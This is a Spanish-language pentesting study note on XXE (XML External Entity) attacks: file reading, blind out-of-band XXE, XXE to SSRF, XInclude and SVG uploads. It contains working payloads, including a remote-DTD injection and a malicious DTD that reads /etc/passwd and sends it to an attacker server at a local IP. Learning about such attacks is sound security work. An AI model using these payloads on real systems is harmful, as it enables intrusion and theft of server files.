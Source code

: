 ________
- Tags: #inyeccion  #explotacion  #web #xml #xxe #file_uploads
______

El lenguaje de marcado extensible (XML) es un **lenguaje de marcado que proporciona reglas para definir cualquier dato**. A diferencia de otros lenguajes de programación, XML no puede realizar operaciones de computación por sí mismo.

Ejemplo de estructura de datos en XML:
![[Pasted image 20240704171055.png]]

Si se usa este método en una página web, es propenso a ser vulnerable a XXE.

A base de "entidades" que podemos definir en esta misma estructura, podemos leer archivos internos, listar directorios y llevar a otras vulnerabilidades como [SSRF](Hack/OWASP%2010%20y%20WEB/SSRF.md) o un RCE.

Incluso si la web no nos muestra ningún "output" procedente de los datos en el XML, aún podemos tratar de explotarlo. Esto se llamaría XXE OOB o ciego.

_______
Podemos leer archivos creando una entidad junto con el wrapper file:// :

![[Pasted image 20240704171839.png|1225]]

Como podemos ver, para llamar a una entidad creada, se hace de esta forma: ``&nombreentidad;``

_______
## XXE OOB / Ciego

A veces la página no nos dejará crear entidades. En estos casos, crearemos y llamaremos la entidad desde el propio DTD.

- Nota: el DTD es la parte del código donde se crea la entidad, la que empieza por ``<! DOCTYPE foo ``...

Para hacer esto, usaremos la siguiente estructura: ``<!DOCTYPE foo [<!ENTITY % file SYSTEM "http://IPLOCAL:8000/testXXE"> %file;]>`` 
Ejecutando esto, recibiremos una petición a nuestro servidor de atacante ya que la pagina intenta cargar una entidad que referencia a un servidor externo.
![[Pasted image 20240704173323.png]]

Pasamos a hacer una explotación real con este método. El objetivo será que la maquina victima que no representa el output del XML, me envíe el contenido de un archivo, en este caso /etc/passwd en base64 a través de una petición GET.

Primero inyectamos en la petición un DTD que cargue un archivo que nosotros crearemos con más DTDs que harán el trabajo:
``<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://192.168.37.135:8000/malicious.dtd"> %xxe;]>``

- Nota: Haremos que nos lo envíe en base-64 porque con este método el wrapper file:// no funcionará correctamente.

Pasaremos a crear el archivo al cual la página vulnerable hará la petición:
```
<!ENTITY % archivo SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://192.168.37.135:8000/?file=%archivo;'>">
%eval;
%exfil;
```

**Explicación linea a linea:**

1. Creamos la entidad que hará que la página cargue el archivo
2. Creamos una entidad que se encargará de crear otra entidad que la página haga la petición
3. y 4. Lamamos a las entidades creadas en la línea dos.

Boom.
![[Pasted image 20240704175118.png]]

________
## XXE to SSRF

![[Pasted image 20240704181222.png]]

______
## XXE XInclude

Usado cuando la aplicación usa un xml por detrás pero tu no tienes acceso a este:
![[Pasted image 20240708153550.png]]

[Ver más:](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#xinclude)
_________
## File Uploads

Si eres capaz de subir un archivo SVG a una aplicación, podrás inyectar entidades externas a través de dicho archivo:
[Ver mas:](https://www.exploit-db.com/docs/49732)